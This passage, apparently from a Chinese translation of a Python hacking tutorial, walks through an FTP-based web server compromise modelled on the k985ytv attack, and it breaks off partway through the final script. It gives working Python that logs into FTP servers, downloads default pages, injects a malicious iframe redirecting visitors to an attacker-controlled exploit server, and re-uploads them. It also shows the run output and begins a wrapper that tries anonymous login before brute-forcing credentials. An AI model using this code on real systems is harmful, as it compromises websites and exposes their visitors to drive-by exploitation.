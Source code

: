 接下来，我们必须添加一个重定向从被感染的主机到我们的恶意的服务器。为此，我们可以从攻陷的服务器下载默认的 WEB 页面，注入一个`iframe`，然后上传恶意的页面到服务器上。看看这个`injectPage()`函数，它接受一个 FTP 连接，一个页面名和一个重定向的`iframe`的字符串作为输入，然后下载页面作为临时副本，接下来，添加重定向的`iframe`代码到临时文件中。最后，该函数上传这个被感染的页面到服务器中。

```py
# coding=UTF-8

import ftplib

def injectPage(ftp, page, redirect):
    f = open(page + '.tmp', 'w')
    ftp.retrlines('RETR ' + page, f.write)
    print '[+] Downloaded Page: ' + page
    f.write(redirect)
    f.close()
    print '[+] Injected Malicious IFrame on: ' + page
    ftp.storlines('STOR ' + page, open(page + '.tmp'))
    print '[+] Uploaded Injected Page: ' + page

host = '192.168.95.179'
userName = 'guest'
passWord = 'guest'
ftp = ftplib.FTP(host)
ftp.login(userName, passWord)
redirect = '<iframe src="http://10.10.10.112:8080/exploit"></iframe>'
injectPage(ftp, 'index.html', redirect) 
```

运行我们的代码，我们可以看到它下载`index.html`页面然后注入我们的恶意代码到里面。

```py
attacker# python injectPage.py
[+] Downloaded Page: index.html
[+] Injected Malicious IFrame on: index.html
[+] Uploaded Injected Page: index.html 
```

## 将攻击整合在一起

现在我们就整合所有的攻击到`attack()`函数中。`attack()`函数接收一个主机名，用户名，密码和定位地址为输入。这个函数首先利用用户凭证登陆 FTP 服务器，接下来我们寻找默认页面，下载每一个页面并且添加恶意的重定向代码，然后上传修改后的页面到 FTP 服务器中。

```py
def attack(username, password, tgtHost, redirect):
    ftp = ftplib.FTP(tgtHost)
    ftp.login(username, password)
    defPages = returnDefault(ftp)
    for defPage in defPages:
        injectPage(ftp, defPage, redirect) 
```

添加一些选项参数，我们包装整合我们的脚本。你将注意到我们首先尝试匿名登录 FTP 服务器，如果失败，我们将通过暴力破解得到服务器的认证。虽然只有近百行代码，但这个攻击完全可以复制 k985ytv 的原始的攻击向量。

```py
# coding=UTF-8

import ftplib
import optparse
import time

def anonLogin(hostname):
    try:
        ftp = ftplib.FTP(hostname)
        ftp.login('anonymous', 'me@your.com')
        print('\n[*] ' + str(hostname) + ' FTP Anonymous Logon Succeeded.')
        ftp.quit()
```